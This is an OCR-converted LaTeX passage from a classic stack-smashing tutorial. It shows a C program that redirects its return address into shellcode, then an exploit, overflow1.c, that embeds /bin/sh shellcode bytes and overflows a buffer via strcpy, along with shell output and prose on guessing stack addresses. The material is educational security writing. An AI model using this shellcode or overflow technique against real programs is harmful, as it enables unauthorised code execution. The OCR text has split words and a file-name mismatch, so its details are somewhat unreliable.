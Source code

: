 \documentclass[10pt]{article}
\begin{document}
{\begin{lstlisting}[caption=testsc2.c,basicstyle=\tiny]
void main() 
{
   int *ret;
   ret = (int *)&ret + 2;
   (*ret) = (int)shellcode;
}
\end{lstlisting}

\begin{verbatim}
[aleph1]$ gcc -o testsc2 testsc2.c
[aleph1]$ ./testsc2
$ exit
[aleph1]$
\end{verbatim}

\section{Writing an Exploit}

Lets try to pull all our pieces together. We have the shellcode. We know it must be part of the string which 
we'll use to overflow the buffer. We know we must point the return address back into the buffer. This example 
will demonstrate these points:

\begin{lstlisting}[caption=overflow1.c,basicstyle=\tiny]

char shellcode[] =
"\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b"
"\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd"
"\x80\xe8\xdc\xff\xff\xff/bin/sh";

char large_string[128];

void main() 
{
  char buffer[96];
  int i;
  long *long_ptr = (long *) large_string;

  for (i = 0; i < 32; i++)
    *(long_ptr + i) = (int) buffer;  

  for (i = 0; i < strlen(shellcode); i++)
    large_string[i] = shellcode[i];

  strcpy(buffer,large_string);
}
\end{lstlisting}

\begin{verbatim}
[aleph1]$ gcc -o exploit1 exploit1.c
[aleph1]$ ./exploit1
$ exit
exit
[aleph1]$
\end{verbatim}

What we have done above is filled the array \verb+large_string[]+ with the address of buffer[], which is where our code 
will be. Then we copy our shellcode into the beginning of the \verb+large_string+ string. strcpy() will then copy 
\verb+large_string+ onto buffer without doing any bounds checking, and wil l overflow the return address, overwriting it 
with the address where our code  is now located.  Once we reach the end of main and it tr ied to return it jumps to 
our code, and execs a shell. The problem we are faced when trying to overflow the buffer of another program is 
trying to figure out at what address the buffer (and thus our code) will be. The answer is that for every program 
the stack will start at the same addres s. Most programs do not push more than a few hundred or a few thousand 
bytes into the stack at any one time. Therefore by knowing where  the stack starts we can try to guess where  the 
buffer we are trying to overflow will be. Here is a little program that will print its stack pointer: 

}
\end{document}
